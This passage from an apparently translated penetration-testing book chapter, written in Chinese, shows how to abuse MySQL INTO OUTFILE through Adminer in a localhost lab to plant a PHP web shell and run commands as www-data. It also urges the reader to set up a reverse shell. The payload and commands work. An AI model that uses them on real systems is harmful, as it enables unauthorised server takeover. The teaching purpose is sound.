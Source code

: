 我们能通过 SQL 命令上传 Web Shell 吗？MySQL 有一个 INTO OUTFILE 语句，可以将查询结果写入输出文件。通过使用带有 INTO OUTFILE 的 SELECT 语句，我们可以尝试将任意内容写入数据库服务器的文件系统。

为了能够上传 Web Shell 或将文件写入系统，我们首先需要知道我们尝试写入的目标路径是否存在于系统中。运行该应用程序的用户账户也必须具有写入该路径的权限。

让我们在 Adminer 中的 **SQL 命令** 部分运行几个测试命令，看看我们是否能够写入系统。以下 SQL 命令尝试将内容添加到名为 *file_write.txt* 的文件中：

```
**SELECT "test_write1" into OUTFILE "file_write1.txt"**
```

执行成功，响应信息显示查询执行成功，受影响的行数为 1，但我们不知道这个文件在文件系统中的位置。如果我们尝试浏览 *http://localhost:8888/file_write1.txt*，会得到 404 未找到错误。这意味着文件没有保存在 Web 根目录，而是保存在我们无法访问的其他地方。

我们能识别出提供网站的文件系统路径吗？常见的 Web 根目录路径包括 */var/www* 或 */var/www/html*。运行以下命令将文件写入 */var/www/html* 目录：

```
**SELECT "test_write2" into OUTFILE "/var/www/html/file_write2.txt"**
```

这次，我们收到了权限拒绝错误，错误信息为查询中的错误 (1)：无法创建/写入文件，这意味着路径存在，但代我们执行命令的用户没有写入权限。

我们的 dirsearch 扫描检测到了一个 *uploads* 目录。也许我们可以向其中写入文件？让我们试试看：

```
**SELECT "test_write3" into OUTFILE "/var/www/html/uploads/file_write3.txt"**
```

浏览到 *http://localhost:8888/uploads/file_write3.txt*；你应该能看到 *test_write3* 文本，这表明我们成功地将文件写入了 *uploads* 目录。

现在我们需要写一些代码，使我们能够执行命令。我们可以使用 PHP Web Shell 来实现这一点。运行以下命令将 PHP Web Shell 写入 *uploads* 目录：

```
**SELECT "<?php system($_GET['cmd']); ?>" into OUTFILE "/var/www/html/uploads/s.php"**
```

最后，运行 curl 来检查我们是否能够通过 Web Shell 执行命令：

```
$ **curl http://localhost:8888/uploads/s.php?cmd=id**

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

成功了！我们能够在*www-data*用户的上下文中运行系统命令。在继续之前，尝试利用你目前在书中学到的内容建立一个反向 Shell。

## 总结

在本章中，我们通过使用一个富含频率的端口数据库来改进了我们的端口扫描，并识别了可能的访问路径，以便访问公司网络中的额外资源。在横向移动的过程中，我们利用托管在共享驱动器上的脚本，攻破了未受保护的数据库，给 WordPress 实例植入后门，通过泄露的 SQL 文件访问了数据库管理面板，进行了 Redis 配置调整，并通过 SQL 命令上传了 Web Shell。
